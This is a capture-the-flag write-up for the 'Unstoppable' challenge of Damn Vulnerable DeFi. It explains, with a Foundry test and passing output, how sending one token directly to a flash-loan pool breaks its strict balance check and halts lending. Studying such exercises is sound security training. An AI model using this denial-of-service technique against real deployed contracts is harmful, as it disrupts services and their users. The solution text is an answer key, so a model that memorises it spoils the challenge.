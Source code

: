 #	Damn Vulnerable DeFi (Foundry version)
- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

##	Challenge #1 - Unstoppable - Description

There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to attack and stop the pool from offering flash loans ...

You start with 100 DVT tokens in balance.

##  Scope

| File Name                                                                      | SHA-1 Hash                               |
| ------------------------------------------------------------------------------ | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/unstoppable/ReceiverUnstoppable.sol | a0250b77e1e331d49084f5829af77788a02eea7b |
| damn-vulnerable-defi-foundry/src/Contracts/unstoppable/UnstoppableLender.sol   | 363dfce7ea33163505a3232fe277be6910b3df0f |

##  Plan

From the description we can make the assumption that we must break the contract (DOS?). We can start looking for [assert-and-require][].

[assert-and-require]: https://docs.soliditylang.org/en/v0.8.12/control-structures.html#assert-and-require

-   The convenience functions assert and require can be used to check for conditions and throw an exception if the condition is not met.

-   The assert function creates an error of type Panic(uint256). Assert should only be used to test for internal errors, and to check invariants.

-   The require function either creates an error without any data or an error of type Error(string). It should be used to ensure valid conditions that cannot be detected until execution time. This includes conditions on inputs or return values from calls to external contracts.

There are no `require` but there is one `error AssertionViolated()` in:
https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/unstoppable/UnstoppableLender.sol#L41

```solidity
if (poolBalance != balanceBefore) revert AssertionViolated();
```

The error is giving us a hint that points to [SWC-110: Assert Violation](https://swcregistry.io/docs/SWC-110):
-   assert() function is meant to assert invariants. Properly functioning code should never reach a failing assert statement. A reachable assertion can mean one of two things:
    1.  A bug exists in the contract that allows it to enter an invalid state;
    2.  The assert statement is used incorrectly, e.g. to validate inputs.

There are [six ways that two smart contracts can interact](https://github.com/Luker501/SmartContractInteractions). Three of them can send/transfer ether:
1.  Send
2.  Transfer
3.  Self Destruct

To reach the failing assert statement we can do something like [SWC-132: Unexpected Ether balance](https://swcregistry.io/docs/SWC-132):
-   Contracts can behave erroneously when they strictly assume a specific Ether balance. It is always possible to forcibly send ether to a contract (without triggering its fallback function), using selfdestruct, or by mining to the account. In the worst case scenario `this could lead to DOS conditions that might render the contract unusable`.

## Solution

<details>
    <summary>Description</summary>

Send 1 token to the Lending Pool directly.

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/unstoppable/Unstoppable.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {Utilities} from "../../utils/Utilities.sol";
import "forge-std/Test.sol";

import {DamnValuableToken} from "../../../src/Contracts/DamnValuableToken.sol";
import {UnstoppableLender} from "../../../src/Contracts/unstoppable/UnstoppableLender.sol";
import {ReceiverUnstoppable} from "../../../src/Contracts/unstoppable/ReceiverUnstoppable.sol";

contract Unstoppable is Test {
    uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;
    uint256 internal constant INITIAL_ATTACKER_TOKEN_BALANCE = 100e18;

    Utilities internal utils;
    UnstoppableLender internal unstoppableLender;
    ReceiverUnstoppable internal receiverUnstoppable;
    DamnValuableToken internal dvt;
    address payable internal attacker;
    address payable internal someUser;

    function setUp() public {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */

        utils = new Utilities();
        address payable[] memory users = utils.createUsers(2);
        attacker = users[0];
        someUser = users[1];
        vm.label(someUser, "User");
        vm.label(attacker, "Attacker");

        dvt = new DamnValuableToken();
        vm.label(address(dvt), "DVT");

        unstoppableLender = new UnstoppableLender(address(dvt));
        vm.label(address(unstoppableLender), "Unstoppable Lender");

        dvt.approve(address(unstoppableLender), TOKENS_IN_POOL);
        unstoppableLender.depositTokens(TOKENS_IN_POOL);

        dvt.transfer(attacker, INITIAL_ATTACKER_TOKEN_BALANCE);

        assertEq(dvt.balanceOf(address(unstoppableLender)), TOKENS_IN_POOL);
        assertEq(dvt.balanceOf(attacker), INITIAL_ATTACKER_TOKEN_BALANCE);

        // Show it's possible for someUser to take out a flash loan
        vm.startPrank(someUser);
        receiverUnstoppable = new ReceiverUnstoppable(
            address(unstoppableLender)
        );
        vm.label(address(receiverUnstoppable), "Receiver Unstoppable");
        receiverUnstoppable.executeFlashLoan(10);
        vm.stopPrank();
        console.log(unicode"🧨 PREPARED TO BREAK THINGS 🧨");
    }

    function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        dvt.transfer(address(unstoppableLender), 1);
        vm.stopPrank();
        /** EXPLOIT END **/
        vm.expectRevert(UnstoppableLender.AssertionViolated.selector);
        validation();
    }

    function validation() internal {
        // It is no longer possible to execute flash loans
        vm.startPrank(someUser);
        receiverUnstoppable.executeFlashLoan(10);
        vm.stopPrank();
    }
}
```
</details>

### Proof of Concept

```
./run.sh 1
[⠃] Compiling...
[⠒] Compiling 1 files with 0.8.12
[⠘] Solc 0.8.12 finished in 1.60s
Compiler run successful

Running 1 test for test/Levels/unstoppable/Unstoppable.t.sol:Unstoppable
[PASS] testExploit() (gas: 45480)
Logs:
  🧨 PREPARED TO BREAK THINGS 🧨

Test result: ok. 1 passed; 0 failed; finished in 3.55ms
```